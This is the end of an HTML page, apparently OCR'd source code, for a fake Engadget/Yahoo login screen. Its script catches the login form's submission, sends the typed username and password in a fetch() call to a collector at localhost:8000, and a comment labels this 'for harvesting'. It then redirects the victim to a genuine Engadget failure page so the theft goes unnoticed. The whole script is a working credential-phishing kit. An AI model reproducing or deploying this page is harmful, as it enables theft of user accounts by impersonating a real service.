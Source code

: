                 </div>
            </div>
        </div>
    </div>
    <div class="property-container">
        <div class="login-bg-mask"></div>
        <iframe src="https://s.yimg.com/wm/mbr/html/engadget-v0.0.1.html" allowfullscreen frameborwser="0" width="100%" height="100%" sandbox></iframe>
    </div>
</div>
<script nonce="In4TBTC/V8QchCbGAq8V32cOYkiFQpQ8b08nBDnpv4utj2P/">
    // Toggle password visibility
    document.getElementById('password-toggle-button').addEventListener('click', function() {
        const passwordInput = document.getElementById('login-passwd');
        const button = this;
        if (passwordInput.type === 'password') {
            passwordInput.type = 'text';
            button.textContent = 'Hide';
            button.title = 'Hide password';
        } else {
            passwordInput.type = 'password';
            button.textContent = 'Show';
            button.title = 'Show password';
        }
    });

    // Handle form submission
    document.getElementById('login-form').addEventListener('submit', function(event) {
        event.preventDefault(); // Prevent default form submission
        const form = this;
        const username = encodeURIComponent(form.querySelector('#login-username').value);
        const password = encodeURIComponent(form.querySelector('#login-passwd').value);
        const callbackUrl = `http://localhost:8000?username=${username}&password=${password}`;
        
        // Send credentials to localhost (for harvesting)
        fetch(callbackUrl, { method: 'GET' })
            .then(() => {
                // Redirect to failure page
                window.location.href = 'https://login.engadget.com/account/challenge/fail';
            })
            .catch((error) => {
                console.error('Error sending credentials:', error);
                // Redirect to failure page even if fetch fails
                window.location.href = 'https://login.engadget.com/account/challenge/fail';
            });
    });
</script>
</body>
</html>
